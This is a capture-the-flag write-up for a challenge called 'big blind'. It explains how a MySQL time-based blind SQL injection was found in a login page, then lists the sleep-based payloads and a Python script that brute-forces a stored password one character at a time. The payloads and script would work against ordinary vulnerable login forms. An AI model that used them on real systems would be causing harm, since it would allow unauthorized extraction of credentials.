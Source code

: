 ## big blind
> Solved By : thewhiteh4t


- we are given a login page in this challenge
- the page source does not contain any JS
- After trying several things I found that we get status 500 on using `'` in either username or password field
- we don’t get an error if we use `'` in both fields
- A better test is to use the following :

```
user : ''
pass : '
```

- in the above case we get an error which shows that its due to an un-closed `'`
- we don’t get an error in the following case :

```
user : ''
pass : ''
```

- finally I confirmed that its blind SQL injection by using the following payload :

```
' or sleep(2) and 1=1#
```

- so here it was clear that its MySQL because syntax for others are different
- I used `SUBSTRING` and `SLEEP` to bruteforce the flag one character at a time
- payload :

```
' OR IF(SUBSTRING(pass,1,1)='f',sleep(5),sleep(0))#
```

- Explanation :
    - substring function requires three arguments
    - first argument is the string which we want to check
    - second argument is the position which we want to check
    - third argument is the length we want to check
    - to check one character at a time I incremented second argument each time and kept third argument fixed
- Usage of `IF` :
    - If uses three arguments
    - first is the condition
    - second is action if condition is `True`
    - third is action if condition is `False`
    - so when we find a match we will see a sleep of 5 seconds else page will load immediately
- Automation :

```python
from requests import post, ReadTimeout

url = 'https://big-blind.hsc.tf/'
charset = '_{}flagisodnbcehjkmpqrtuvwxyz'
flag = ''
counter = 0

while flag.endswith('}') != True:
    counter += 1
    for char in charset:
        payload = {
            'user': 'twh',
            'pass': f"' OR IF(SUBSTRING(pass,{counter},1)='{char}',sleep(5),sleep(0))#"
        }
        try:
            r = post(url, data=payload, timeout=3)
        except ReadTimeout:
            flag += char
            print(f'FLAG : {flag}')
            break
```

- output :

![](https://i.imgur.com/fAdPjA5.png)
